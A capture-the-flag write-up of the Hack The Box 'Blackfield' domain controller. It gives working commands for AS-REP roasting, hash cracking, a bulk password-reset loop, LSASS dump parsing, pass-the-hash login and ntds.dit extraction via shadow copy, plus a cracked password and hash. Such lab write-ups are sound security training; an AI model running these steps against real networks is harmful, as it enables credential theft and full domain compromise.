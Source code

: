 ```yaml
---
author: k0z4c
title: Blackfield
---
```


## **Getting Access**

We start with nmap scanning every port
```bash
nmap -A -T4 -Pn -n -oA nmap/tcp_all -p- -vvv blackfield.htb
```

![]({% link assets/htb/blackfield/nmap.png %})

After seeing that we are facing a Windows box (RPC's ports) and that is a domain controller (port 53),
the enumeration doesn't seem to lead us very far.

So we try to see if anonymous access is allowed on the SMB service
```bash
smbclient -U'a%a' -L \\\\blackfield.htb
```

Then, with smbmap let's look where we have access

![]({% link assets/htb/blackfield/profiles.png %})

Entering to the profiles$ share, we see that we can obtain a bunch of domain usernames

Let's save those names with 
```bash
smbmap -H blackfield.htb -d blackfield -u 'a' -r profiles$ | cut -f 3 | tail -n +8 > usernames.lst
```

Then, let's test if the PRE_AUTH kerberos flag it's enabled for some accounts with
```bash
GetNPUsers.py -u usernames.lst -dc-ip 10.10.10.192 -format hashcat -outputfile hashes BLACKFIELD.LOCAL/
```
![]({% link assets/htb/blackfield/preauth.png %})
  
So we got the hash of the support account
![]({% link assets/htb/blackfield/support_hash.png %})

Let's crack it with hashcat !
```bash
hashcat -a 0 -m 18200 /root/hashes /root/rockyou.txt
```
![]({% link assets/htb/blackfield/support_pass.png %})

After seeing that we cannot log with the WinRm service to the machine, let's see if we have further access on SMB

![]({% link assets/htb/blackfield/support_access.png %})

After downloading SYSVOL with smbget I found nothing because the disk was encrypted with EFS encryption.

## ***RPCs, motherfuckers!***

So, what's now ?

So I thought about RPC; in fact, many services on the remote host are usually exposed through RPC interfaces.
For example, through RPC is possible to enumerate account usernames, privileges, domain info, ... 

Let's give it a try
```bash 
rpcclient -W blackfield -U'support%#00^BlackKnight' blackfield.htb
```

We see that our pwned account has so many privileges
![]({% link assets/htb/blackfield/support_privs.png %})

So I started to think I could abuse those rights in some ways; for example, why dont try to reset a password to some user?
Then I wrote the following script 

{% highlight bash linenos %}
for u in $(cat /root/htb/blackfield/enum_users.lst); 
do
	echo "[*] Tryin $u.."
	rpcclient -W BLACKFIELD -U 'support%#00^BlackKnight' -c "setuserinfo2 $u 23 Pwned123!!" 10.10.10.192;

	if [[ $? -eq 0 ]]; then
		echo "[*] PWNED $u !!!"
		break
	fi
done
{% endhighlight %}


And voila' !


![]({% link assets/htb/blackfield/audit_pwn.png %})

So now we are able to access again SMB network share with more privileges.
In particular, we are now able to access the forensic share 
```bash
smbmap -H blackfield.htb -u audit2020  -p 'Pwned123!!' -R forensic
```

## **Recovering hashes from LSASS minidump**

![]({% link assets/htb/blackfield/lsass_zip.png %})

The lsass.zip file looks very interesting; we can recover maybe some hashes. 
Let's download it 
```bash
smbget  -U'audit2020%Pwned123!!'  -w blackfield.local smb://blackfield.htb/forensic/memory_analysis/lsass.zip
```
The file is a memory minidump, as expected
![]({% link assets/htb/blackfield/file_lsass.png %})

So we can examine it with pypikatz!
```bash 
pypykatz lsa minidump lsass.DMP -o lsass_hashes.data
```

![]({% link assets/htb/blackfield/backup_hash.png %})

Now we can log onto the box with the svc_backup account
```bash
evil-winrm.rb -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

![]({% link assets/htb/blackfield/backup_privs.png %})

## **Privilege escalation with Shadow Copy**

The SeBackupPrivilege (we belong to the Backup Operators Group) is awesome; we can read and backup every file on the machine
without worry about any ACLs restriction on the filesystem!

So we can copy the ntds.dit file and recover all the domain hashes.
Following this guide https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group
we can priv esc to Administrator, after making a ShadowCopy of the domain database. 

Let's write this script then
```bash
set context persistent nowriters  
set metadata c:\users\svc_backup\appdata\local\temp\juicy.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup 
```

After uploading it on the target box, we make a shadow copy of C: with
```bash
diskshadow /s script.dsh
```
![]({% link assets/htb/blackfield/shadow.png %})

After the process completes, we'll find our copy on a W: drive.
To retrieve the ntds.dit database file, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder.

So we download and compile with Visual Studio this project https://github.com/giuliano108/SeBackupPrivilege
and we load the SeBackupPrivilegeCmdLets.dll and SeBackupPrivilegeUtils.dll in our powershell session and we type
```bash
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\users\svc_backup\appdata\local\temp\ntds.dit -Overwrite
```

Now we backup the system hive needed  to later decrypt the ntds.dit file
```bash
reg save HKLM\SYSTEM c:\users\svc_backup\appdata\local\temp\system.hive
```

Now we can finalliy download everything
![]({% link assets/htb/blackfield/download_pwn.png %})

Let's now recover the Administrator hash
```bash
secretsdump.py -ntds /root/evil-winrm/ntds.dit -system /root/evil-winrm/system.hive -hashes lmnhash:nthash LOCAL -outputfile loot.hashes
```

![]({% link assets/htb/blackfield/pwn_hashes.png %})

Let's log in as Administrator
![]({% link assets/htb/blackfield/pwn.png %})

pwned ! (:
